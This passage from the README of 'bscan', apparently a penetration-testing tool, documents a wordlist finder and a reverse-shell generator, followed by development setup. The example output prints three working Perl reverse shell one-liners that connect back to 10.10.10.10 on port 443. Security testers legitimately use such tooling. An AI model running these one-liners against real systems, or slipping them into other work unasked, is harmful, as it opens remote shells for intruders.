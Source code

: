 
## Companion Tools

The main `bscan` program ships with two utility programs (`bscan-wordlists` and `bscan-shells`) to make your life a little easier when looking for wordlists and trying to open reverse shells.

`bscan-wordlists` is a program designed for finding wordlist files on Kali Linux. It searches a few default directories and allows for glob filename matching. Here's a simple example:
```sh
$ bscan-wordlists --find "*win*"
/usr/share/wordlists/wfuzz/vulns/dirTraversal-win.txt
/usr/share/wordlists/metasploit/sensitive_files_win.txt
/usr/share/seclists/Passwords/common-passwords-win.txt
```
Try `bscan-wordlists --help` to explore other options.

`bscan-shells` is a program that will generate a variety of reverse shell one-liners with `target` and `port` fields populated for you. Here's a simple example to list all Perl-based shells, configured to connect back to `10.10.10.10` on port `443`:
```sh
$ bscan-shells --port 443 10.10.10.10 | grep -i -A1 perl
perl for windows
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.10.10.10:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl with /bin/sh
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl without /bin/sh
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.10.10:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
Note that `bscan-shells` pulls these commands from the [`reverse-shells.toml`](bscan/configuration/reverse-shells.toml) configuration file. Try `bscan-shells --help` to explore other options.


## Development

Start by setting up a new development environment and installing the requirements (using [`virtualenvwrapper`](https://pypi.org/project/virtualenvwrapper/) / [`virtualenvwrapper-win`](https://pypi.org/project/virtualenvwrapper-win/)):
```sh
# setup the environment
mkvirtualenv -p $(which python3) bscan-dev
workon bscan-dev

# get the deps
pip install -r dev-requirements.txt
```

Lint and type-check the project (these are run on [Travis](./.travis.yml), too):
```sh
flake8 . && mypy bscan
```
